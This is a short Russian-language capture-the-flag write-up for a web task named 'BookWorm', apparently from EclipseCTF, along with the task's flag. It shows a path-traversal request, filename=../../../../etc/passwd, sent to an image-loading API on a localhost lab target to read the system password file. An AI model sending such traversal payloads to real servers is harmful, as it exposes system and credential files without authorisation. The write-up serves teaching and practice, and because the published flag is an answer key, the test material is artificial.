 # BookWorm

***Описание***: Как много книг ты прочитал за год? Я сделал подборку своих избранных книг, посмотри, может тебе они тоже понравятся!

Ссылка: `http://localhost:8080`

Формат: EclipseCTF{...}

---
### Решение

Переходим на сайт:

![ScreenShot](Assets/For_Tasks/BookWorm-1.png)

Смотрим, как подгружаются картинки на сайт:

![ScreenShot](Assets/For_Tasks/BookWorm-2.png)

```
src="/api/book/loadImage?filename=0.png"
```

Прочитаем `/etc/passwd`, эксплуатируя `Path Traversal`:

```
http://localhost:8080/api/book/loadImage?filename=../../../../etc/passwd
```

![ScreenShot](Assets/For_Tasks/BookWorm-3.png)

---

***Флаг***: `EclipseCTF{../e7c/p455wd_hun73r}`
